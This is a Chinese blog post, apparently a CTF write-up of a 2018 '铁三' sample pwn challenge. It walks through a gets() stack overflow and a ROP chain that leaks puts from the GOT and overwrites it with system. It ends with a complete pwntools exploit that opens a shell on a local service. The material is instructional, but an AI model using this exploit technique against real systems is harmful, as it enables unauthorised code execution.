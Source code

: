 ```yaml
---
layout:     post
title:      "2018铁三个人赛样题writeup"
subtitle:   " \"覆写got表\""
date:       2018-02-12 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```


>传送门

[源文件下载](https://github.com/yxshyj/project/tree/master/pwn/2018%E9%93%81%E4%B8%89%E4%B8%AA%E4%BA%BA%E8%B5%9B%E6%A0%B7%E9%A2%98)

## 0x00 程序分析
使用IDA pro 打开程序文件

![](https://i.imgur.com/16hax4G.png)

程序存在典型的栈溢出，使用gets没有限制输入的长度，而且存在gets，puts等函数调用。
 
运行程序

![](https://i.imgur.com/Wn8NFmk.png)

长度过长的时候会导致程序崩溃。

检查程序的保护措施

![](https://i.imgur.com/r00sAnm.png)

## 0x01 测量偏移长度
1)  使用pwntools 产生150个垃圾字符

pip install pwntools 之后

pwn cyclic 150

![](https://i.imgur.com/eynMELO.png)

将这些字符串输出到一个test文件中

2)  gdb 调试

![](https://i.imgur.com/krUzqBd.png)

查看gdb的调试信息

![](https://i.imgur.com/u0dZ1WC.png)

图中显示运行到ret 处停止，ret 指令 相当于 pop rax ; jmp rax

也就是从栈顶取值，并跳转到这个值的地址。

栈顶的值是kaaa 由此得偏移量为40。

![](https://i.imgur.com/klPeu5U.png)

## 0x02 漏洞利用思路

现在可以利用栈溢出让程序跳转到任意位置，但是由于程序开启了NX，且系统中开启了ASLR，所以采用ROP技术，构造出一个system(“/bin/sh”).
system函数在libc中，且每次运行都会变化，我们通过构造payload泄露libc中的另一个函数puts在GOT表中的真实地址，puts和system 在libc中的偏移是固定的，进而推算出system地址。
再次构造ROP 使用gets函数将put函数的GOT地址覆盖为system函数地址，然后再跳转到put即可实现getshell。
 
1)  泄露puts函数的GOT地址
首先收集gets的plt地址 和 puts的plt，got地址。

![](https://i.imgur.com/AAdxxpE.png)

需要构造 puts(puts_got)

在64位中通过寄存器传递参数 依次是rdi,rsi,rdx,r10,r8,r9

使用ROPgadget 查找 pop rdi;ret;  用于设置puts函数的第一个参数。

ROPgadget --binary ./tie3_pwn --only "pop|ret"

![](https://i.imgur.com/Wc5KnZl.png)

pop rdi ; ret ; 的地址是0x4006f3
 
构造payload  pop_rdi + puts_got + puts_plt 

![](https://i.imgur.com/P4l6ru1.png)

运行结果如下

![](https://i.imgur.com/aVYERT3.png)

 
到此已经成功的获取到了put的函数地址。
 
计算偏移

	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
	system_off = libc.symbols['system']
	puts_off = libc.symbols['puts']
	off = system_off - puts_off
此时system的地址也知道了。
 
2)  将put替换为system地址获得shell

使用gets函数，构造gets(puts_got)  ，然后再构造system(“/bin/sh”)
 
在原来的基础上

 pop_rdi + puts_got + puts_plt  

 +pop_rdi+puts_got+gets_plt  此时已经构造好覆盖put函数got表的payload
 
 +pop_rdi + bin_sh + puts_plt   执行system(“/bin/sh”)

 

最后完整的payload如下

 

	from pwn import *
	
	context.log_level = "debug"
	
	e = ELF("./tie3pwn")
	puts_plt = e.plt['puts']
	gets_plt = e.plt['gets']
	puts_got = e.got['puts']
	 
	print "puts_plt: "+hex(puts_plt)
	print "gets_plt: "+hex(gets_plt)
	print "puts_got: "+hex(puts_got)
	 
	pop_rdi = 0x4006f3
	print "pop_rdi: "+hex(pop_rdi)
	 
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
	system_off = libc.symbols['system']
	puts_off = libc.symbols['puts']
	off = system_off - puts_off
	 
	payload = "A"*40+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)
	payload += p64(pop_rdi)+p64(puts_got)+p64(gets_plt)
	payload += p64(pop_rdi)+p64(puts_got+8)+p64(puts_plt)
	 
	s = remote("127.0.0.1",8888)
	s.recvuntil(":")
	s.sendline(payload)
	s.recvuntil("tie3\n")
	 
	puts_addr = u64(s.recvuntil("\n")[:-1].ljust(8,"\x00"))
	print "puts_addr: "+hex(puts_addr)
	system_addr = puts_addr+off
	print "system_addr: "+hex(system_addr)
	 
	s.sendline(p64(system_addr)+"/bin/sh\x00")
	s.interactive()
 
运行结果如下 为了方便没有显示调试信息

![](https://i.imgur.com/aVYERT3.png)